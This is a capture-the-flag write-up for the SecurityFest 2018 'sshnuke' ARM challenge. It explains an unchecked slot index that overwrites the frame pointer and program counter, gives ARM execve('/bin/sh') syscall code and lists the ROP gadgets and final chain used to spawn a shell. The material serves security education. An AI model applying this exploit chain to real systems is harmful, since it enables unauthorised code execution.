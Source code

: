 # sshnuke
This is ARM ROP task.

![](/images/SecurityFestCTF2018/sshnuke/01.png)

For comfortable debugging I was using Azeria-Lab-v1 VM from https://azeria-labs.com/arm-lab-vm/


Vulnerability is in store function - no check for max slot value, slots array size = 12 => overflow. 

slots[13] = bp (frame pointer, analogue of ebp) 

slots[14] = pc (program counter, analogue of eip)

Same vulnerability in read_store function => can leak, but ASLR was off, so leak was not needed.


On ARM syscall execve got following structure:

syscall execve("/bin/sh", argv, env) => execve("/bin/sh", 0, 0)

add r0, 0x099014   ; /bin/sh addr
mov r1, #0
mov r2, #0
mov r7, #11        ; number of execve() syscall 
svc #0             ; syscall


0x099014 - is address where login string is placed:

![](/images/SecurityFestCTF2018/sshnuke/02.png)


Using ROPgadget I found required gadgets to make syscall execve("/bin/sh", 0, 0). 

There was no "pop {r2, pc}" gadget, so I used:

pop {r0, r4, pc}
mov r2, r4 ; blx r3

"blx r3" instruction will brunch at an address specified by a register r3 (analogue of call).


Also there are calculated crc32 hash of user input string in _do_store function.

![](/images/SecurityFestCTF2018/sshnuke/03.png)

So we have to do reverse crc32. I used script from https://github.com/theonlypwner/crc32/blob/master/crc32.py


Final rop:

login('/bin/sh\x00')

store_data(14, crc32_reverse(pop_r1_pc), True, False)
store_data(15, crc32_reverse(0), True, True)
store_data(16, crc32_reverse(pop_r7_pc), True, True)
store_data(17, crc32_reverse(11), True, True)
store_data(18, crc32_reverse(pop_r3_pc), True, True)
store_data(19, crc32_reverse(svc_0), True, True)  
store_data(20, crc32_reverse(pop_r0_r4_pc), True, True)
store_data(21, crc32_reverse(login_str_addr), True, True)
store_data(22, crc32_reverse(0), True, True)
store_data(23, crc32_reverse(mov_r4_r2_blx_r3), False, True)

![](/images/SecurityFestCTF2018/sshnuke/04.png)
 


